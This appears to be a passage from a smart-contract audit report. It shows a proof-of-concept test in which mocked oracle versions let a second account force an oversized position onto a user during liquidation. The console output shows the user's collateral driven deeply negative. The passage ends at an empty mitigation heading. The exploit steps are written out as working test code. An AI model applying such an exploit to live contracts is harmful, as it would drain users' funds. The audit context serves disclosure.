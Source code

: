 ```solidity
    const ORACLE_VERSION_3b = {
      price: parse6decimal('100'),
      timestamp: TIMESTAMP + 7200,
      valid: true,
    }

  oracle.at.whenCalledWith(ORACLE_VERSION_2.timestamp).returns([ORACLE_VERSION_2, INITIALIZED_ORACLE_RECEIPT])
  oracle.at.whenCalledWith(ORACLE_VERSION_3b.timestamp).returns([ORACLE_VERSION_3b, INITIALIZED_ORACLE_RECEIPT])
  oracle.at.whenCalledWith(ORACLE_VERSION_4.timestamp).returns([ORACLE_VERSION_4, INITIALIZED_ORACLE_RECEIPT])
  oracle.status.returns([ORACLE_VERSION_2, ORACLE_VERSION_4.timestamp])

  // position opened. now close position (user is not liquidatable yet)
  await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, 0, false)

  var loc = await market.locals(user.address);
  console.log("user collateral before liquidation: " + loc.collateral);

  // version 3 is commited and user becomes liquidatable
  oracle.status.returns([ORACLE_VERSION_3b, ORACLE_VERSION_4.timestamp])        
  
  await market
    .connect(userC)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, POSITION2_USER, 0, 0, true)

  oracle.status.returns([ORACLE_VERSION_4, ORACLE_VERSION_5.timestamp])

  await settle(market, user)
  await settle(market, userB)
  await settle(market, userC)

  var loc = await market.locals(user.address);
  console.log("user collateral: " + loc.collateral);
  var pos = await market.positions(user.address);
  console.log("user pos: long = " + pos.long);
})
```

Console output:
```solidity
user collateral before liquidation: 26310000
user collateral: -36899977657400
user pos: long = 100000000000000
```

### Mitigation
